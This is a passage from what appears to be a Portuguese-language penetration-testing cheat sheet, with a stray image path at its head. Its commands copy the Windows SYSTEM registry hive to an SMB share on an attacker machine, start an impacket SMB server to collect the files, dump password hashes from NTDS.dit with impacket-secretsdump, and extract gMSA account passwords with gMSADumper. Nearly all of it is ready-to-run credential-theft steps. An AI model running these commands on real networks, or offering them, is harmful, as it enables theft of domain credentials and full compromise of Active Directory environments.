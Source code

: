 ```
net use \\10.0.0.1\smb /user:test test
```

depois:

```
reg save HKLM\SYSTEM \\10.0.0.1\smb\system
```



claro que temos que estar com o servidor smb de pé (se necessário, colocar senha e usuário):

```
impacket-smbserver -smb2support smb .
```

ou

```
impacket-smbserver -smb2support -username test -password test smb .
```

Assim que os arquivos necessários estiverem an máquina do atacante, considere o seguinte comando:

```
impacket-secretsdump local -ntds ntds.dit -system system
```


## gMSAPassword

```
python /home/acosta/work/Area_de_trabalho/tools/windows/6-AD_Tools/gMSADumper/gMSADumper.py -u <usuario> -p <senha> -d <nome_dominio>
```